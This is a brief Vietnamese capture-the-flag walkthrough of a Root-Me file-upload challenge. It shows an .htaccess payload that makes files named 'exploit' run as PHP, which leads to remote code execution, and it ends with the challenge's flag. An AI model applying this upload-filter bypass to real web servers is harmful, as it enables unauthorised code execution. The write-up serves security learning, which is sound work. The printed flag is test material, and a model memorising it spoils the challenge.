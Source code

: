 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/e613b428-46df-49cb-a389-7b1cd0a78b67)

thử upload 
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/f629c170-8b50-4e9f-958b-9ccc74977c03)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/ebdb55f3-ce0f-4f20-ba9f-f0413591db13)

Ta đổi nội dung thành như sau:
```
Options All +Indexes

<IfModule mod_php7.c>
    php_flag engine on
</IfModule>

<FilesMatch "exploit">
  SetHandler  application/x-httpd-php
</FilesMatch>
```
![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/bfeee210-7afd-423f-936a-aaf66c68b659)


Các file có tên "exploit" sẽ được thực thi như là file ".php".

Sau đó tải lên tệp "exploit"

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/072c01b1-072f-4757-a1e1-98daf010fe64)

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/68eb6412-f9a6-423d-9322-74ca499c4ed7)

=> ht@cc3ss2RCE4th%w1n
